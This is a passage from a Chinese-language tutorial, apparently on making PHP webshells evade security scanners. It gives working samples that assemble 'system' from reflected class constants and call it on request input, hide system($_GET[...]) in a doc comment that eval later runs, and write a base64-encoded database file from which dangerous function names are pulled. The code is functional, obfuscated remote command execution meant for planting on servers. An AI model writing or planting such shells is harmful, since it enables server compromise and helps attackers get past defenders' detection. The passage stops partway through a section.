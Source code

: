 获取某个类的全部已定义的常量，不管可见性如何定义

    
    
    public ReflectionClass::getConstants(void) : array

例子如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    class Test{    const a = 'Sy';    const b = 'st';    const c = 'em';        public function __construct(){    }}  
    $para1;$para2;$reflector = new ReflectionClass('Test');  
    for ($i=97; $i <= 99; $i++) {    $para1 = $reflector->getConstant(chr($i));    $para2.=$para1;}  
    foreach (array('_POST','_GET') as $_request) {    foreach ($$_request as $_key=>$_value) {        $$_key=  $_value;    }}  
    $para2($_value);

##

## 11# 读取字符串绕过

重点还是放在高危函数上，通过读取各种东西来获得对应字符串

###

### 11.1 读取注释

这里用到读取注释的函数

    
    
    ReflectionClass::getDocComment

例子如下：

  *   *   *   *   *   *   *   * 

    
    
    /**       * system($_GET[aabyss]);    */  class User { }  $user = new ReflectionClass('User');$comment = $user->getDocComment();$f = substr($comment , 14 , 22);eval($f);

###

### 11.2 读取数据库

可以通过 `file_put_contents` 文件写入函数写入一个Sqlite的数据库

  *   * 

    
    
    $datatest = "[文件的base64编码]";file_put_contents('./要写入的文件名', base64_decode($datatest));

然后通过PHP读取数据库内容提取高危函数，从而达到WebShell免杀效果

  *   *   *   *   *   *   *   *   *   * 

    